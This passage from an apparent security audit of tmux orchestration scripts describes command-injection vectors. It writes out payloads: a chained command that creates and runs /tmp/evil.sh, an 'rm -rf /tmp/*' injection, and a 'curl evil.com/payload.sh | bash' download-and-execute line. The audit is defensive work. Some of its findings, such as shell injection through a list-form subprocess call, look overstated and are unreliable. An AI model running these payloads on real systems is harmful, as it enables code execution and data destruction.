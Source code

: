 3. **Multi-stage Command Chaining:**
   ```bash
   ./send-claude-message.sh session:window "; echo 'payload' > /tmp/evil.sh && chmod +x /tmp/evil.sh && /tmp/evil.sh"
   ```

**Attack Prerequisites:**
- Access to execute send-claude-message.sh
- Knowledge of target tmux session:window format
- No authentication or authorization checks

**Impact:**
- Complete system compromise with user privileges
- Arbitrary code execution
- Data exfiltration and system reconnaissance
- Persistent backdoor installation

### 1.2 Python Subprocess Shell Injection

**Attack Vector ID:** AV-RCE-002  
**Severity:** HIGH  
**CVSS Score:** 8.8 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
**Exploitability:** Easy

**Technical Details:**
The `tmux_utils.py` script uses `subprocess.run()` with potential shell injection vectors:

```python
def send_keys_to_window(self, session_name: str, window_index: int, keys: str, confirm: bool = True) -> bool:
    try:
        cmd = ["tmux", "send-keys", "-t", f"{session_name}:{window_index}", keys]
        subprocess.run(cmd, check=True)
```

**Exploitation Pathways:**
1. **Session Name Injection:**
   ```python
   # Crafted session name: "session; rm -rf /tmp/*"
   orchestrator.send_keys_to_window("session; rm -rf /tmp/*", 0, "message")
   ```

2. **Window Index Manipulation:**
   ```python
   # Crafted window index that breaks parsing
   orchestrator.send_keys_to_window("session", "0; evil_command", "message")
   ```

3. **Message Content Injection:**
   ```python
   # Crafted message with escape sequences
   orchestrator.send_keys_to_window("session", 0, "$(curl evil.com/payload.sh | bash)")
   ```

**Attack Prerequisites:**
- Access to Python environment with tmux_utils.py
- Ability to call orchestrator methods
- Basic understanding of tmux session structure
